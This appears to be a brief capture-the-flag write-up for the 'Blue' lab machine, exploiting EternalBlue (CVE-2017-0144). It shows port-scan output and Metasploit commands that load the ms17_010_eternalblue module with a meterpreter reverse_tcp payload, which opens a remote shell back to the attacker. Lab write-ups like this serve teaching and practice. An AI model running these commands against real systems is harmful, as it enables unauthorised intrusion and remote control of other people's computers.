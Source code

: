 # Blue Write-Up

Easy

Tags: 
`SMB`
`CVE-2017-0144`

## Intro

1. Eternal Blue

## Exploit

### Port scanning

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

### [Exploit EternalBlue with Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/)

```
use exploit/windows/smb/ms17_010_eternalblue
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run